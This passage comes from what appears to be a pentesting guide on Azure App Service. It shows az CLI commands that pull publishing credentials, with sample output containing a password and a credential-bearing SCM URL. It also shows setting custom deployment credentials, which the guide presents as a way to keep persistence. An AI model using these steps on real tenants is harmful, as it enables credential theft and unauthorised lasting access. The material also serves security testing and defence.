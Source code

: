 Note how the **username is always the same** (except in FTP which ads the name of the app at the beginning) but the **password is the same** for all of them.

Moreover, the **SCM URL is `<app-name>.scm.azurewebsites.net`**.

- The permission **`Microsoft.Web/sites/config/list/action`** allows to call:

```bash
az webapp deployment list-publishing-credentials --name <app-name> --resource-group <res-group>
# Example output
{
  "id": "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/carlos_rg_3170/providers/Microsoft.Web/sites/happy-bay-0d8f842ef57843c89185d452c1cede2a/publishingcredentials/$happy-bay-0d8f842ef57843c89185d452c1cede2a",
  "kind": null,
  "location": "Canada Central",
  "name": "happy-bay-0d8f842ef57843c89185d452c1cede2a",
  "publishingPassword": "bgrMliuJayY5btkKl9vRNuit7HEqXfnL9w7iv5l2Gh2Q2mAyCdCS1LPfi3zS",
  "publishingPasswordHash": null,
  "publishingPasswordHashSalt": null,
  "publishingUserName": "$happy-bay-0d8f842ef57843c89185d452c1cede2a",
  "resourceGroup": "carlos_rg_3170",
  "scmUri": "https://$happy-bay-0d8f842ef57843c89185d452c1cede2a:bgrMliuJayY5btkKl9vRNuit7HEqXfnL9w7iv5l2Gh2Q2mAyCdCS1LPfi3zS@happy-bay-0d8f842ef57843c89185d452c1cede2a.scm.azurewebsites.net",
  "type": "Microsoft.Web/sites/publishingcredentials"
}
```

Note how the **credentials are the same** as in the previous command.

- Another option would be to **set you own creds** and use them:

```bash
# Show if any user is configured (password won't be shown)
az webapp deployment user show

# Set your own credentials
az webapp deployment user set \
    --user-name hacktricks \
    --password 'W34kP@ssw0rd123!'

# To delete it, check https://stackoverflow.com/questions/45275329/remove-deployment-credentials-from-azure-webapp
```

Then, you can use this credentials to **access the SCM and FTP platforms**. This is also a great way to maintain persistence.

Remember that to access the SCM platform from the **web you need to access to `<SCM-URL>/BasicAuth`**.

> [!WARNING]
> Note that every user can configure it's own credentials calling the previous command, but if the user doesn't have enough permissions to access the SCM or FTP, the credentials won't work.

- If you see that those credentials are **REDACTED**, it's because you **need to enable the SCM basic authentication option** and for that you need the second permission (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write`):

